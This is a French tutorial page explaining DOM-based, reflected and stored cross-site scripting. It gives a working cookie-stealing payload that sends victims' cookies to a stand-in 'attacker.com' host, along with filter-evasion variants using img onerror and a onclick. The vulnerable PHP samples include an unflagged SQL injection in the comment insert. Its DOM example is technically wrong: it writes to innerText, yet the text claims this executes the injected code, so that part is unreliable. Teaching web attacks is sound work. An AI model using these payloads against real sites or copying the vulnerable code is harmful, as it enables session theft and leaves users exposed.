 ```yaml
---
title: XSS, késako ?
sidebar_label: XSS
pagination_label: XSS, késako ?
description: XSS, késako ?
keywords:
  - docs
  - OSINT
---
```


## Qu'est ce qu'une XSS ?

### Introduction
L'attaque par Cross-Site Scripting, communément appelée XSS, est une attaque qui est pratiquée sur des applications web. Elle est actuellement une attaque dévastatrice et à prendre au sérieux ([3ᵉ du top 10 OWASP](https://owasp.org/Top10/fr/)) 😱😱. Cette technique exploite les entrées utilisateurs qui ne sont pas désinfectées par le développeur. On va donc passer par des requêtes HTTP GET/POST pour injecter nos payloads et pouvoir toucher les autres utilisateurs.

Il existe trois variantes principales de cette attaque :

- le XSS basé sur le DOM
- le XSS réfléchi
- le XSS stocké

Pour savoir laquelle nous allons utiliser, il va falloir voir de quoi se compose le serveur web que nous attaquons. 

### XSS basé sur le DOM


La XSS basé sur le DOM est une attaque XSS non persistante qui s'exécute côté client. C'est-à-dire que notre objectif n'est pas de la maintenir dans une base de donnée du serveur et de la propager à tous les utilisateurs. Nous allons plutôt créer une URL qui sera exécuté par le code JS côté client :

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Voici notre URI, décortiquons là : 

Nous avons d'abord notre site cible : ```http://target.com/search```, on va chercher la page qui contient un formulaire ou qui nécessite un argument dans l'URL.

```?request=``` est l'argument dans lequel on va intégrer notre script JS.

```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```, ici on utilise [document.location](https://developer.mozilla.org/fr/docs/Web/API/Document/location) pour rediriger l'utilisateur vers ```http://attacker.com/steal.php``` qui sera notre site de réception de cookie, on ajoute l'argument ```cookie='+document.cookie``` pour rediriger les cookies de la victime vers notre site 😃

La différence avec une XSS réfléchi, c'est que le notre URL sera exécuté côté client et non par le serveur ! 

Par exemple, si côté client, vous avez un code qui récupère les arguments et les affiche dans le DOM :


```javascript
var url = document.location.href;
var message = url.split("message=")[1];
document.getElementById('welcomeMessage').innerText = message;
```

Alors, lorsque l'utilisateur visite cette URL (par phising la plupart du temps), le code JS extrait le message à partir de l'URL et l'injecte directement dans la page, ce qui conduit à l'exécution du code.


### XSS réfléchi

L'attaque XSS réfléchi vient du fait que l'attaque est basée sur la réponse du serveur à une requête, elle rentre en opposition avec la XSS basé sur le DOM qui exécute le code coté client.
Cette variante est aussi non persistante et sera aussi exploiter par le phising 

Reprenons notre payload : 

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Si le serveur a un script php de ce style qui extrait et affiche la requête : 



```php
<?php
$request = $_GET['request'];
?>
<html>
    <body>
        <form method="GET" action="">
            <input type="text" name="request" placeholder="Enter search request" />
            <input type="submit" value="Search" />
        </form>
        <?php
        if ($request) {
            echo "You searched for: " . $request;
        }
        ?>
    </body>
</html>
```

Alors le serveur renverra une page avec notre code qui sera inséré dedans.


### XSS stocké

Pour la XSS stocké, considérons un site web avec un forum de discussion où les utilisateurs peuvent poster des commentaires. Si le site ne vérifie pas correctement le contenu des messages, un attaquant pourrait poster un commentaire contenant du code JS, comme notre fameux payload ```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```. Ce commentaire serait alors stocké sur la base de donnée du site et chaque fois qu'un autre utilisateur affichera ce commentaire sur son navigateur, le code malveillant serait exécuté. 
Voici un exemple de script php qui stocke les inputs que les utilisateurs envoient : 

```php
<?php
$db = new SQLite3('comments.db');
$db->exec("CREATE TABLE IF NOT EXISTS comments (comment TEXT)");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $comment = $_POST['comment'];
    $db->exec("INSERT INTO comments (comment) VALUES ('$comment')");
}
?>

<!DOCTYPE html>
<html>
<body>
<form method="post" action="">
    <textarea name="comment"></textarea>
    <input type="submit" value="Submit comment">
</form>

<?php
$results = $db->query('SELECT * FROM comments');
while ($row = $results->fetchArray()) {
    echo $row['comment'] . '<br />';
}
?>

</body>
</html>
```

Ici la première partie du code PHP intègre le commentaire à la base de données. Puis la seconde partie affiche tout les commentaires.
Comme pour les autres variantes, dès qu'un utilisateur affichera la page, le code malveillant sera exécuté.

### Payloads exotiques

Souvent des normes de sécurités sont mises en place pour supprimer les balises script, il faut donc ruser pour pouvoir injecter notre payload.
Par exemple celui-ci : 

```<img src/onerror=document.location='http://attacker.com/steal.php?cookie='+document.cookie;>```

Ce payload ajoute une balise image au DOM qui n'a pas de source ce qui appellera onerror et lancera notre script.

Ou encore ce payload : 

```<a onclick="document.location='http://attacker.com/steal.php?cookie='+document.cookie;" style=display:block>test</a>```

Ici, on ajoute un lien avec la balise ```a``` qui utilise ```onclick``` pour activer le script.
Ce payload demande que la victime interagisse plus et sera moins efficace.

Beaucoup de payload existe et je vous recommande [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) pour explorer un peu les possibilités 😁



